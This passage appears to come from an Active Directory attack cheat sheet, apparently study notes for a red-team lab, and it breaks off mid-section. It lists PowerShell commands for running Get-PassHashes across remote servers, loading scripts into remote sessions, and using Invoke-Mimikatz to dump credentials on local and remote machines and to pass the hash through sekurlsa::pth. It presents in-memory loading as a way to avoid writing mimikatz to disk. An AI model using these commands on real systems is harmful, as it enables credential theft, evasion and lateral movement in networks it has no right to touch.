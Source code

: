 ```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list of servers>) -
ArgumentList
```

### <span style="color:#F1C232">4. Directly load function on the remote machines using FilePath</span>

```powershell
$sess = New-PSSession -Computername <computer-name>
Invoke-Command -FilePath "C:\temp\hello.ps1" -Session $sess
Enter-PSSession -Session $sess
[scorp.star.light.local]:PS> hello
Hello from the function
```

# <span style="color:lightblue">Invoke-Mimikatz</span>

* The script could be used to dump credentials, tickets and more using mimikatz with PowerShell without dropping the mimikatz exe to disk.
* It is very useful for passing and replaying hashes, tickets and for many exciting Active Directory attacks.
* Using the code from ReflectivePEInjection, mimikatz is loaded reflectively into the memory. All the functions of mimikatz could be used from this script.
* The script needs administrative privileges for dumping credentials from local machine. Many attacks need specific privileges which are covered while discussing that attack. 

### <span style="color:#F1C232">1. Dump credentials on a local machine</span>

```powershell
Invoke-Mimikatz -DumpCreds
```

### <span style="color:#F1C232">2. Dump credentials on multiple remote machines</span>

```powershell
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2")
```

> Invoke-Mimikatz uses PowerShell remoting cmdlet **Invoke-Command** to do above.
{: .prompt-info }
### <span style="color:#F1C232">3. "Over pass the hash" generate tokens from hashes</span>

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:<ntImhash> /run:powershell.exe"'
```

### <span style="color:#F1C232">4. Create new session and dump hashes</span>
